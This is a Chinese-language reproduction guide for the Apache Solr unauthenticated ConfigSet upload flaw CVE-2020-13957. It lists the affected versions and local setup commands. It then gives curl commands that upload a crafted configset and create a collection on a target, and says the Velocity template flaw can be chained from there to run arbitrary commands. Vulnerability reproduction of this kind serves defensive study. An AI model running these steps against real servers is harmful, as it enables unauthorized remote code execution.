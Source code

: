 ```yaml
---
title: Apache Solr RCE 未授权上传漏洞 CVE-2020-13957
---
```


# Apache Solr RCE 未授权上传漏洞 CVE-2020-13957

## 漏洞描述

在特定的Solr版本中ConfigSet API存在未授权上传漏洞，攻击者利用漏洞可实现远程代码执行。

## 影响版本

Apache Solr 6.6.0 -6.6.5

Apache Solr 7.0.0 -7.7.3

Apache Solr 8.0.0 -8.6.2

## 环境搭建

选择一个存在漏洞的版本, 这里复现使用的是 `Apache Solr 7.7.0` 进行复现, 下载后执行以下命令进行环境部署

```shell
cd solr-7.7.0
./bin/solr start -e cloud -force
```

然后一路回车，直至出现

```shell
Created collection 'gettingstarted' with 2 shard(s), 2 replica(s) with config-set 'gettingstarted'

Enabling auto soft-commits with maxTime 3 secs using the Config API

POSTing request to Config API: http://localhost:8983/solr/gettingstarted/config
{"set-property":{"updateHandler.autoSoftCommit.maxTime":"3000"}}
Successfully set-property updateHandler.autoSoftCommit.maxTime to 3000


SolrCloud example running, please visit: http://localhost:8983/solr
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

在攻击机上下载目标版本的Solr,执行下列命令打包压缩文件

```plain
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip
```

![540ba570-fe93-4fc6-b7fd-f5a5a7fc8f3f](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/540ba570-fe93-4fc6-b7fd-f5a5a7fc8f3f.png)

将 vuln.zip 进行上传

```shell
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "http://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
```

name参数为压缩包的文件名, 利用漏洞创建一个 core

```shell
curl "http://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
```

<a-alert type="success" message="name参数为创建的core核心名" description="" showIcon>
</a-alert>

<a-alert type="success" message="collection.configName参数为上传的文件名" description="" showIcon>
</a-alert>
<br/>
再使用 Apache Solr Velocity模板远程执行`CVE-2019-17558` 即可执行任意命令